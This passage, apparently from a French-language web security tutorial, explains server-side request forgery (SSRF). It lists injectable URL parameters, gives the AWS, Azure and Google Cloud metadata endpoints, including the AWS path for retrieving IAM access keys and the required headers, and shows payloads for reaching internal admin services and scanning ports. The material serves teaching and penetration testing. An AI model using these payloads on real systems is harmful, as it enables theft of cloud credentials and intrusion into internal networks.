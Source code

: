 ```
https://example.com/fetch?url=https://api.example.com/data
https://example.com/pdf?site=https://example.com/report
https://example.com/check?address=https://partner.com
https://example.com/proxy?endpoint=https://internal-api/v1/users
```

#### Exploitation simple : récupération de métadonnées cloud

Les plateformes cloud exposent souvent des métadonnées via des endpoints internes :

##### AWS

```
# URL de base des métadonnées AWS
http://169.254.169.254/latest/meta-data/

# Récupération de l'IAM role
http://169.254.169.254/latest/meta-data/iam/security-credentials/

# Récupération des clés d'accès
http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
```

##### Azure

```
# URL de base des métadonnées Azure
http://169.254.169.254/metadata/instance

# Avec en-tête requis
Metadata: true
```

##### Google Cloud

```
# URL de base des métadonnées GCP
http://metadata.google.internal/computeMetadata/v1/

# Avec en-tête requis
Metadata-Flavor: Google
```

#### Techniques d'exploitation

1. **Accès aux services internes** :
   ```
   https://example.com/fetch?url=http://localhost:8080/admin
   https://example.com/fetch?url=http://internal-service/api/users
   ```

2. **Scan de ports** :
   ```
   https://example.com/fetch?url=http://localhost:22
   https://example.com/fetch?url=http://localhost:3306
   ```
   Observer les différences de temps de réponse ou d'erreurs
